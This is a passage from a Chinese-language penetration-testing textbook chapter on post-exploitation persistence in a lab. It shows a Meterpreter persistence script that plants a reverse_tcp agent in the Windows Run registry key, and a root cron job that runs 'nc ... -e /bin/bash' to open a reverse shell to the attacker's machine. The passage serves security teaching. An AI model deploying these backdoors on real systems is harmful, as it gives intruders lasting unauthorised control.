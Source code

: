 让我们运行 *persistence* 脚本，如示例 13-34 所示，指示代理在用户登录时连接回我们的 Kali 机器。

示例 13-34. 运行持久化脚本

```
meterpreter > **run persistence -r 192.168.20.9 -p 2345 -U**
[*] Running Persistence Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/BOOKXP_20150814.1154/BOOKXP_20150814.1154.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345
[*] Persistent agent script is 614853 bytes long
[+] Persistent Script written to C:\WINDOWS\TEMP\eTuUwezJblFHz.vbs
[*] Executing script C:\WINDOWS\TEMP\eTuUwezJblFHz.vbs
[+] Agent executed with PID 840
[*] Installing into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\BJkGfQLhXD
[+] Installed into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\BJkGfQLhXD
```

运行脚本后，使用 Meterpreter 命令`background`将 Meterpreter 会话放到后台，并设置一个处理程序以捕捉持久化代理。现在重启 Windows XP 目标机。重启后，以*georgia*身份登录，你应该会收到另一个 Meterpreter 会话。

### 注意

如果第一次没有成功，尝试重新启动并再次登录。

### 创建 Linux cron 作业

在 Windows 和 Linux 系统上，我们可以在特定时间自动启动任务。例如，我们可以设置一个 `cron` 作业，自动运行 Metasploit 负载，甚至只使用 Netcat 连接回我们。

打开你的 Linux 目标机上的 */etc/crontab* 文件。以下这一行将每小时、每天、每月的每十分钟运行一次命令 `nc 192.168.20.9 12345 -e /bin/bash`，也就是说，每十分钟执行一次。该命令将以 root 权限运行。将这一行添加到 */etc/crontab* 文件的末尾。（有关帮助，请参见使用 cron 作业自动化任务。）

```
*/10 * * * * root nc 192.168.20.9 12345 -e /bin/bash
```

现在通过输入**`service cron restart`**重启 `cron` 服务。在 Kali 机器上设置 Netcat 监听器，监听端口 12345，并在接下来的十分钟标记时，`cron` 作业应当运行，你应当在 Netcat 监听器上接收到一个 root shell。

## 总结

在本章中，我们仅介绍了一些后期利用技巧，几乎只是略微触及了可用的各种有趣工具和技术的表面。我们研究了一些提升权限的方法，针对已被利用的系统进行特权提升。我们还探讨了收集本地信息的方法。我们学习了如何将对一个系统的访问转化为对多个系统的访问，包括通过一个开放会话从一个网络转向另一个网络。最后，我们还介绍了几种使访问变得持久的方法。
